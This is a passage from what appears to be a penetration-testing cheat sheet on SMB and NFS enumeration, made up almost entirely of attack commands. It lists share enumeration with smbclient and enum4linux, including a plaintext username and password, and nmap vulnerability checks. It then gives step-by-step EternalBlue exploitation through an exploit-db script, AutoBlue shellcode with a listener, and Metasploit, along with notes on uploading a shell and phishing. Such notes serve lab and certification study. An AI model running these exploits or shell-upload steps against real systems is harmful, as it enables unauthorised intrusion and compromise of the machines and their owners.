 ```
smbclient -U 'Guest' -L \\\\\192.168.134.126\\
smbclient --no-pass -L //192.168.203.172
enum4linux -a -u "CRAFT2\\thecybergeek" -p "winniethepooh" 192.168.203.188
```

**Connect to a share**
```
smbclient //192.168.134.126/print$
smbclient \\\\\192.168.212.172\\Shenzi
smbclient //192.168.203.172/DocumentsShare -U CRAFT2/thecybergeek
mount -t cifs -o rw,username=guest,password= '//10.10.10.103/Department Shares' /mnt
```

**Use nmap to scan for the NetBIOS service**<br/>
`nmap -v -p 139,445 -oG smb.txt 10.11.1.1-254`

**Use nbtscan to collect additional NetBIOS information**<br/>
`sudo nbtscan -r 10.11.1.0/24`

**Find various nmap SMB NSE scripts**<br/>
`ls -1 /usr/share/nmap/scripts/smb*`<br/>
Example: `nmap -v -p 139, 445 --script=smb-os-discovery <IP>`

**Determining whether a host is vulnerable to the MS08_067 vulnerability**
- `nmap -v -p 139,445 --script=smb-vuln-ms08-067 --script-args=unsafe=1 <IP>`
  - Note: the script parameter `unsafe=1`, the scripts that will run are almost guaranteed to crash a vulnerable system

**EternalBlue**
- https://redteamzone.com/EternalBlue/
- `nmap -Pn -p445 --open --max-hostgroup 3 --script smb-vuln-ms17-010 192.168.1.17`
- `sudo impacket-smbserver -smb2support share /home/kali/Documents/windows-attack/nc/`
First option
- `python 42315 10.10.10.4`
  - exploit: https://www.exploit-db.com/exploits/42315
Second option
- With AutoBlue-MS17-010
  1. `cd shellcode` > `./shell_prep.sh`
  2. run a listener
  3. `python eternalblue_exploit7.py 10.10.14.10 shellcode/sc_x64.bin`
Third option
- with metasploit
  - `use windows/smb/ms17_010_psexec`

**General notes**
- Remember that you can transfer files to the share with `copy <file> \\<IP>\share`
  - Also when using `sudo impacket-smbserver -smb2support share .`
- check if this smb hosts files of the web service, it might be possible to upload a shell
- maybe it's possible to do phishing
- nmap -Pn -p 139,445 --open --max-hostgroup 3 --script=smb-vuln* 10.10.10.4

## NFS Enumeration

**Find and identify hosts that have portmapper/rpcbind running using nmap**<br/>
`nmap -v -p 111 10.11.1.1-254`
